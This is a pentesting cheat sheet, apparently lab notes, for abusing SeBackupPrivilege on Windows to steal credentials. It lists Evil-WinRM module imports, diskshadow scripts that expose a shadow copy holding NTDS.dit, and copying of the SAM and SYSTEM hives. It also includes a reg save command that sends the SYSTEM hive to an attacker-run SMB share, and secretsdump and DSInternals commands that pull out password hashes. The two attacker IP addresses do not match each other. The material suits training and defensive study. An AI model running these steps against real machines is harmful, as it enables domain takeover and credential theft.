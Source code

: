 # Backup Operators member
## SeBackup and SeRestore Privileges
This will let us copy a file from a folder, even if there is no access control entry (ACE) for us in the folder's access control list (ACL). However, we can't do this using the standard copy command. Instead, we need to programmatically copy the data, making sure to specify the `FILE_FLAG_BACKUP_SEMANTICS` flag
1. Use this exploit to exploit the `SeBackupPrivilege`
```
https://github.com/giuliano108/SeBackupPrivilege
```
2. upload both files to the host machine
3. SeBackupPrivilegeUtils.dll
```
*Evil-WinRM* PS C:\Users\svc_backup> import-module .\SeBackupPrivilegeUtils.dll
```
4. SeBackupPrivilegeCmdLets.dll
```
*Evil-WinRM* PS C:\Users\svc_backup> import-module .\SeBackupPrivilegeCmdLets.dll
```
5. Create the following `vss.dsh`
```
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
```
6. upload to host machine
7. Start smb server on attack machine
```
sudo impacket-smbserver share . -smb2support -user df -password df
```
```
*Evil-WinRM* PS C:\Users\svc_backup> net use \\10.10.14.9\share /u:df df
```
```
reg.exe save hklm\system \\10.10.14.14\system
```
8. Dump NTDS.dit hashes 
```
root@kali# secretsdump.py -system system -ntds ntds.dit LOCAL
```

## Check if SeBackupPrivilege is enabled
```
whoami /priv
```
```
PS C:\htb> Get-SeBackupPrivilege
```
### If it is disabled
Importing Libraries
```
PS C:\htb> Import-Module .\SeBackupPrivilegeUtils.dll
```
```
PS C:\htb> Import-Module .\SeBackupPrivilegeCmdLets.dll
```
```
PS C:\htb> Set-SeBackupPrivilege
```
```
PS C:\htb> Get-SeBackupPrivilege
```
```
whoami /priv
```
### SeBackupPrivilege is Enabled, then we can do the following:
#### 1. Copying a Protected File, Contract.txt in this example
```
PS C:\htb> Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
```
**NOTE: you need to be in a folder where you have write permissions, like the user directory**
#### 2. Attacking a Domain Controller - Copying NTDS.dit
1. As the NTDS.dit file is locked by default, we can use the Windows diskshadow utility to create a shadow copy of the C drive and expose it as E drive. The NTDS.dit in this shadow copy won't be in use by the system.
```
PS C:\htb> diskshadow.exe
```
```
DISKSHADOW> set verbose on
```
```
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
```
```
DISKSHADOW> set context clientaccessible
```
```
DISKSHADOW> set context persistent
```
```
DISKSHADOW> begin backup
```
```
DISKSHADOW> add volume C: alias cdrive
```
```
DISKSHADOW> create
```
```
DISKSHADOW> expose %cdrive% E:
```
```
DISKSHADOW> end backup
```
```
DISKSHADOW> exit
```
2. **E:\ created**
##### 2.1 Copying NTDS.dit Locally (Copy-FileSeBackupPrivilege or Robocopy)
Next, we can use the `Copy-FileSeBackupPrivilege` cmdlet to bypass the ACL and copy the NTDS.dit locally.
```
PS C:\htb> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```
Extracting Credentials from NTDS.dit (PowerShell or SecrestDump) administrator account in this example
###### PowerShell 
```
PS C:\htb> Import-Module .\DSInternals.psd1
```
```
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
```
```
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```
###### SecretsDump
```
d0x777@htb[/htb]$ secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```
###### Robocopy
```
C:\htb> robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```
#### 3. Backing up SAM and SYSTEM Registry Hives
The privilege also lets us back up the SAM and SYSTEM registry hives, which we can extract local account credentials offline using a tool such as Impacket's secretsdump.py
```
reg save HKLM\SYSTEM SYSTEM.SAV
```
```
reg save HKLM\SAM SAMSAV
```
It's worth noting that if a folder or file has an explicit deny entry for our current user or a group they belong to, this will prevent us from accessing it, even if the FILE_FLAG_BACKUP_SEMANTICS flag is specified.
